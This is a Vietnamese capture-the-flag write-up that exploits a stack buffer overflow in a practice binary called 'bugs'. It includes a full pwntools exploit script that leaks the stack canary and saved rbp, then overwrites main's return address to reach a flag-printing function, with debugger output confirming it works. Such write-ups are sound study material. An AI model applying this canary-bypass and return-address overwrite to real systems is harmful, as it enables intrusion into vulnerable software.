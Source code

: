 
# Bugs

Bài này mục đích của mình sẽ chuyển hướng control flow vào hàm leuleu của chương trình.
```sh
leuleu function
unsigned __int64 leuleu()
{
  FILE *stream; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("flag", "r");
  __isoc99_fscanf(stream, "%s", s);
  fclose(stream);
  puts(s);
  return __readfsqword(0x28u) ^ v3;
}

```
Ở bài này chúng ta sẽ dùng lỗi bufferOverflow tại hàm `read(0, a1, 72uLL)` trong `info function` khi mà tham số a1 ( là thằng v6 của hàm main) của mình chỉ có 40 byte.
Mình sẽ thay đổi địa chỉ của `ret` của hàm main thành địa chỉ của hàm `leuleu`. Nhưng vấn đề gặp phải là chương trình có `Stack canary` buộc mình phải by pass nó. 
## Các bước mình thực hiện:
* Leak được địa chỉ trong stack, tìm offset từ địa chỉ leak được tới địa chỉ của canary, và của V[5].
* Dùng hàm findbox cho sẵn để leak canary. (chuyển sang kiểu số nguyên để tìm).
* Dùng hàm flushbox để gán 0 cho v[5], lúc này chương trình sẽ thoát và gọi hàm `leuleu`

# File exploit.py
```sh
from pwn import *
s = process("./bugs")
pause()

#---------- leak địa chỉ của stack ----------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline("a")
s.recv()
leak = s.recv(14)
v5 = int(leak,16) + 0x30 #offset từ leak_addr đến v[5] = 0x30
log.info("v5 = " + hex(v5))

canary_addr = int(leak,16) + 0x5c #offset từ lead_addr đến canary = 0x5c
log.info("leak_canary = " + hex(canary_addr))

#---------- leak canary ---------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(canary_addr))

s.recvuntil(": ")
canary = s.recv("18")
print canary
canary = int(canary,16)
#---------- leak rbp -------------------------------
rbp_addr = int(leak,16) + 0x5c + 0x8
log.info("leak_rbp = " + hex(rbp_addr))
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(rbp_addr))

s.recvuntil(": ")
rbp = s.recvline()
print rbp
rbp = int(rbp,16)

#---------- đưa địa chỉ hàm leuleu vào rbp+8 (ret-main)--------

pl = "a"*0x28 + p64(canary) + p64(rbp) + p64(0x400876)
s.recvuntil(">")
s.sendline("1")
s.recvuntil("Yourname?")
s.sendline(pl)

#---------- xóa giá trị v5 ------------------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("4")
s.recvuntil("Address of box>")
s.sendline(str(v5))

s.interactive()

```

sau khi thực thi thì mình sẽ vào được hàm leuleu
```sh
 RAX  0x0
 RBX  0x0
 RCX  0x7f19d50b3224 (write+20) ?— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x1
 RSI  0x2332260 ?— 'ok!\ness of box> \n info, 3.findbox, 4.flushbox]> \n'
 R8   0x7f19d55a8500 ?— 0x7f19d55a8500
 R9   0x0
 R10  0x7f19d5141c40 (_nl_C_LC_CTYPE_class+256) ?— add    al, byte ptr [rax]
 R11  0x246
 R12  0x400780 (_start) ?— xor    ebp, ebp
 R13  0x7ffce80d2f70 ?— 0x1
 R14  0x0
 R15  0x0
*RBP  0x400b80 (__libc_csu_init) ?— push   r15
*RSP  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
*RIP  0x400b7b (main+236) ?— ret    
--------------------------------------------[ DISASM ]---------------------------------------------
   0x400b61 <main+210>     mov    eax, 0
   0x400b66 <main+215>     mov    rdx, qword ptr [rbp - 8]
   0x400b6a <main+219>     xor    rdx, qword ptr fs:[0x28]
   0x400b73 <main+228>     je     main+235 <main+235>
    ?
   0x400b7a <main+235>     leave  
 ? "0x400b7b <main+236>     ret             <0x400876; leuleu>
    ?"
   0x400876 <leuleu>       push   rbp
   0x400877 <leuleu+1>     mov    rbp, rsp
   0x40087a <leuleu+4>     add    rsp, -0x80
   0x40087e <leuleu+8>     mov    rax, qword ptr fs:[0x28]
   0x400887 <leuleu+17>    mov    qword ptr [rbp - 8], rax
---------------------------------------------[ STACK ]---------------------------------------------
00:0000¦ rsp  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
01:0008¦      0x7ffce80d2ea0 ?— 0xa /* '\n' */
02:0010¦      0x7ffce80d2ea8 —? 0x7ffce80d2f78 —? 0x7ffce80d46eb ?— 0x4c00736775622f2e /* './bugs' */
03:0018¦      0x7ffce80d2eb0 ?— 0x100008000
04:0020¦      0x7ffce80d2eb8 —? 0x400a8f (main) ?— push   rbp
05:0028¦      0x7ffce80d2ec0 ?— 0x0
06:0030¦      0x7ffce80d2ec8 ?— 0x985e41c4d6a6a961
07:0038¦      0x7ffce80d2ed0 —? 0x400780 (_start) ?— xor    ebp, ebp
-------------------------------------------[ BACKTRACE ]-------------------------------------------
 ? f 0           400b7b main+236
   f 1           400876 leuleu
   f 2                a
   f 3     7ffce80d2f78
   f 4        100008000
   f 5           400a8f main
   f 6                
---------------------------------------------------------------------------------------------------

```
### Tác giả: anh H4niz có nói:
` Chạy vô hàm leuleu là ok r nhé em.Tới đây e hoàn toàn có thể chạy trên server để lấy flag r nhé ` 
